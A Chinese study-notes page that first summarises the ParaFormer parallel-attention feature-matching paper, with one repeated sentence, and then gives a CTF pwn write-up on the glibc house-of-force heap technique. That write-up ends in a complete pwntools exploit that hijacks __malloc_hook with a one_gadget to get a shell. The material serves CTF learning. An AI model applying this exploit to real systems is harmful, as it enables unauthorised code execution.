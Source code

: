 # 2024-1-25

## ParaFormer: Parallel Attention Transformer for Efficient Feature Matching

### 工作摘要

该论文提出了一种并行注意力机制，同步执行自我和交叉注意力机制，并自适应地将两者与可学习网络相结合。同时在原有模型的基础上，进一步探索了U-Net架构，以实现高效的特征匹配，并提出了注意力池，以最小的性能损失减少所需算力。同时在原有模型的基础上，进一步探索了U-Net架构，以实现高效的特征匹配，并提出了注意力池，以最小的性能损失减少所需算力。![三种注意力机制](images/三种注意力机制.png)

### 论文思路

#### ParaFormer

![屏幕截图 2024-01-25 165419](images/屏幕截图2024-01-25165419.png)

假设在图像X和图像Y中检测到M个和N个关键点，我们设置位置分别为 $p^X \in R^{M\times3}$, $p^Y \in R^{N\times3}$ ,  设置描述符分别为 $d^X \in R^{M\times C}$ , $d^Y \in R^{N\times C}$ 。波形的生成公式如下

$$
\begin{array}{l}
&\tilde{w}_j = A_j \odot e^{i\theta_j}\\
	        &\quad\quad= A_j \odot cos\theta_j + iA_j\odot sin\theta_j,j=1,2,...,n.
\end{array}
$$

在Wave-PE中将位置 $p$ 和描述符 $d$ 分别映射为为幅度 $A$ 和相位 $\theta$ 通过MLP将其转换为位置编码 $x,[.,.] $ 表示链接。

$$
A_j=MLP_A(d_j)
\\
\theta_j = MLP(p_j)
\\
x_{j}^0=d_j +MLP_F([A_j\odot cos\theta_j,A_j\odot sin\theta_j])
$$

接下来分别将两组经过Wave-PE处理后得到的位置编码线性投影为 $Q、K、V$ 。然后并行计算自注意力和交叉注意力，自注意力的输入是 $(Q_x,V_x, K_x)$ 和 $(Q_y,V_y, K_y)$ 对于自注意力来说采用标准的注意力公式。

$$
Attention(Q,K,V) = softmax(\frac{QK^T}{\sqrt{d_k}})V
$$

对于交叉注意力该论文提出了一种权值共享策略来提升模型的效率，使用 $(Q_xK_y^T)^T$ 来代替

 $Q_yK_x^T$ ，所以交叉注意力的输入就变成了 $(Q_x,V_x, K_y,V_y)$ ，由于并行注意力层的输出和输入都是两组，所以可以简单地堆叠L个并行注意力层来形成ParaFormer。

#### ParaFormer-U

![屏幕截图 2024-01-25 172443](images/U-net.png)

ParaFormer-U是在原有ParaFormer基础上为提高效率而设计的。首先进行空间下采样以提取高层语义信息，然后进行上采样以恢复空间信息，并通过跳跃连接融合高层和低层信息。

![自注意力](images/自注意力.png)

假设l层中的特征为 $x^l ∈ R^{N×D}$ ，注意力权重为 $A^l ∈ R^{N×N}$ 。提出的注意力池化定义为：

$$
s=sum(A,dim=1)
\\idx=rank(s,k)
\\ \tilde{x}^l=Linear(x^l(idx,:))
\\g=sigmoid(s(idx))
\\x^{l+1}=\tilde{x}^l\odot g
$$


其中k是下一层 $l+1$ 的点的数量，其值等于前一层中点的数量的一半。

自注意力图的每一列的总和被记为池化得分 $s∈R^N$ ,然后根据此得分选择topk的点去掉不重要的点，并使用线性层来调整描述符的维度大小。$s(idx)$ 提取s中索引为 $idx$ 的值然后利用 $sigmoid$ 运算来生成gating信号， $\odot$ 表示逐元素矩阵乘法。

反池化上采样操作则为

$$
\tilde{x}^l=Linear(x^l)
\\x^{l+1}=distribute(0_{N\times C^{l+1}},\tilde{x}^l,idx)
$$

 $x^l∈R^{k\times C^l}$ 是当前的特征矩阵， $0_{N \times C^{l+1}}$ 是下一层的初始空特征矩阵，首先使用线性层来调整特征矩阵维度。 $idx ∈ R^k$ 是在对应池化层中选择的点的索引。然后根据 $idx$ 将当前特征矩阵插入空特征矩阵的相应行，而其他行保持为零。

### idea

1.将CNN换成Transformer，并且叠加多层来试验

2.使用多层交叉自注意力和交叉注意力，通过调整两种注意力层的比例来测验对分类通信协议的效果提升

3.换成U-Net，FCN，PSPNet等结构

## Pwn

![1](images/1.png)

初始界面有两种功能

![2](images/2.png)

进入add函数因为不可以释放和修改所以可以使用house of force的方法

在2.23和2.27的libc版本中，由于没有对top chunk的size合法性进行检查，因此如果我们能够控制top chunk的size位以及malloc在申请堆块时的大小不受限制，那么就可以完成该攻击。

先从malloc函数源码看起，如果malloc函数执行时发现没有任何的bins中的堆块能够满足需求，就会从top chunk中切下一块内存返回给malloc，我们可以利用这个式子精准控制chunk位置

request_size=target_addr-0x20-victim

在控制chunk前还需要调整top chunk大小，如果top chunk本身的size是正常的话，必然无法满足这个要求，因此house of force的一个条件就是可以控制top chunk的size位(通常都是通过溢出的方式)，将其size设置为-1，-1是转换成无符号整数时，将变成最大的数字0xffffffffffffffff，无论request_size为多大都可以通过if检查了。

程序在申请chunk后，会打印出chunk的地址，动调找偏移，我们就可以算出libc_base
把top chunk的size改为0xffffffffffffffff（-1的补码）
我们申请一个size为malloc_hook和top chunk之间的偏移的chunk，那么就能将top chunk推到malloc_hook附近，劫持malloc_hook为one_gadget,获取shell，gadget不成功的话我们可以使用realloc来进行栈帧调整，劫持realloc_hook为one_gadget,劫持malloc_hook为realloc_hook+4，这里会调整栈帧sub rsp,38。

```python
from pwn import *
#io = process('./asd')
sh=remote('node4.buuoj.cn',28113)
context.log_level='debug'
libc = ELF('./libc-2.23-64.so')

def add(size,content):
    sh.sendlineafter(b'2:puts',str(1))
    sh.sendlineafter(b'size',str(size))
    sh.recvuntil(b'bin addr ')
    addr = int(sh.recv(14),16)
    print(hex(addr))
    sh.sendlineafter(b'content',content)
    return addr

libc_base = add(0x210000 , b'aaa') + 0x210ff0
heap_addr = add(0x10 ,p64(0)*3+p64(0xFFFFFFFFFFFFFFFF))
top_addr = heap_addr + 0x10

malloc_addr = libc_base+libc.sym['__malloc_hook']
realloc_addr = libc_base+libc.sym['__libc_realloc']
one_gadget = libc_base + 0x4526a

offset = malloc_addr - top_addr - 0x30
p=add(offset,b'aaaa')
p=add(0x20,b'a'*8 + p64(one_gadget) + p64(realloc_addr+0x10))

sh.recvuntil(b"2:puts\n")
sh.sendline(b'1')

sh.recvuntil(b"size\n")
sh.sendline(p64(20))
sh.interactive()
```

